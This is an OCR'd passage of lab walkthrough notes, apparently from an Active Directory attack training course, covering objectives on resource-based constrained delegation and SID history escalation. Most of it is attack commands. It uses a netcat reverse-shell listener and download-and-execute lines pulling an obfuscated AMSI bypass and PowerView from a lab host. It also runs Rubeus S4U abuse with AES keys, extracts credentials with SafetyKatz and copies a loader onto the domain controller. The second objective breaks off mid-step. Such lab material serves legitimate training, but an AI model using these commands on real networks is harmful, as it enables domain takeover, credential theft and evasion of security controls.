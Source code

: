 
---


# Objective - 17
#### Flag - Computer account on which ciadmin can configure Resource-based Constrained Delegation	
```
Find-InterestingDomainACL | ?{$_.identityreferencename -match 'ciadmin'}
```
- Recall that we compromised ciadmin from dcorp-ci. We can either use the reverse shell we have on dcorp-ci as ciadmin or extract the credentials from dcorp-ci.
- Let's use the reverse shell that we have and load PowerView there:
```
C:\AD\Tools\netcat-win32-1.12\nc64.exe -lvp 443
iex (iwr http://172.16.100.X/sbloggingbypass.txt -UseBasicParsing)
S`eT-It`em *************** "sE`T`VaLUE"(  ${n`ULl},${t`RuE} )
```

```
iex ((New-Object Net.WebClient).DownloadString('http://172.16.100.x/PowerView.ps1'))
```
- Now, set RBCD on dcorp-mgmt for the student VMs. You may like to set it for all the student VMs in your lab instance so that your fellow students can also try it:
```
Set-DomainRBCD -Identity dcorp-mgmt -DelegateFrom 'dcorp-std603$' -Verbose

Get-DomainRBCD
```
- Get AES keys of your student VM (as we configured RBCD for it above). Run the below command from an elevated shell:
```
C:\AD\Tools\Loader.exe -Path C:\AD\Tools\SafetyKatz.exe -args "sekurlsa::evasive-keys" "exit"
```
- With Rubeus, abuse the RBCD to access dcorp-mgmt as Domain Administrator - Administrator:
```
C:\AD\Tools\Loader.exe -path C:\AD\Tools\Rubeus.exe -args s4u /user:dcorp-std603$ /aes256:be29bb307e8dc4924bb07c6111b1ad48d6e741d5f765f75d30b1c6877cf13b9b /msdsspn:http/dcorp-mgmt /impersonateuser:administrator /ptt
```
- Check if we can access dcorp-mgmt:
```
winrs -r:dcorp-mgmt cmd
set username
set computername
```


---


# Objective - 18
#### Flag - SID history injected to escalate to Enterprise Admins	
```
C:\AD\Tools\Loader.exe -path C:\AD\Tools\Rubeus.exe -args asktgt /user:svcadmin /aes256:6366243a657a4ea04e406f1abc27f1ada358ccd0138ec5ca2835067719dc7011 /opsec /createnetonly:C:\Windows\System32\cmd.exe /show /ptt
```
- Run the below commands from the process running as DA to copy Loader.exe on dcorp-dc and use it to extract credentials:
```
echo F | xcopy C:\AD\Tools\Loader.exe \\dcorp-dc\C$\Users\Public\Loader.exe /Y

winrs -r:dcorp-dc cmd

```